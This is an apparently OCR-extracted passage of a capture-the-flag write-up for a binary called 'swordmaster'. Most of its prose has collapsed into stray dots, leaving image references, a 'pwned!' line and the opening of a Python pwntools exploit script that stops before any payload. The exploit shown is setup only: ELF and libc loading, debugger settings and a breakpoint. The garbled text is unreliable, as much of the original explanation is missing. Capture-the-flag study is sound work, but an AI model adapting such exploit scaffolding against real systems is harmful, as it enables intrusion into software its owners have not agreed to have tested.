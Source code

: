     .
    
    .
    

![](images/sweaty-speedrunner.jpg)

- .
    
    .
    
    .
    
    .
    

![](images/shell.png)

**pwned** !

Here is the full exploit:

```python
#!/usr/bin/python
from pwn import *
elf = context.binary = ELF("./swordmaster", checksec=False)
libc = ELF('./glibc/libc.so.6', checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *main+720
'''

IP = ""
PORT = -1

def start(logging='notset'):
```